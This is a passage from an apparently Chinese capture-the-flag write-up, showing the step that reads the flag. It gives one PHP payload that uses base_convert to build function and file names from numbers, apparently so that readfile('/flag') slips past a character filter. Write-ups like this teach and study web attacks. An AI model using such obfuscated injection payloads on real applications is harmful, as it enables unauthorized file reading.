 [![](assets/1698897244-545bcef7b5a8504d678d9367f702c424.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191027234136-42b38e6c-f8d0-1.png)  
*2、读取 flag*

payload

```bash
var_dump(base_convert(2146934604002,10,36)(chr(47).base_convert(25254448,10,36)))
```

[![](assets/1698897244-df31d36aadca0d490a968230d4fd0d99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191027234157-4efd00ae-f8d0-1.png)
